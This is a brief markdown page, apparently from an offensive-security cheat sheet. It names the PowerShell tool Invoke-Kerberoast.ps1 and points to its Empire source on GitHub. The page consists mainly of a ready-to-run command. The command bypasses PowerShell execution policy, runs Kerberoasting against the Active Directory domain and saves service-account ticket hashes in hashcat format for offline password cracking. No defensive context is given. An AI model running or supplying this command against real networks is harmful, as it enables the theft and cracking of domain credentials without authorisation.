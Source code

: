 # Name
Invoke-Kerberoast.ps1

## Usage
```
powershell -ep bypass -c "Import-Module .\Invoke-Kerberoast.ps1; Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt"
```

## Source
https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1

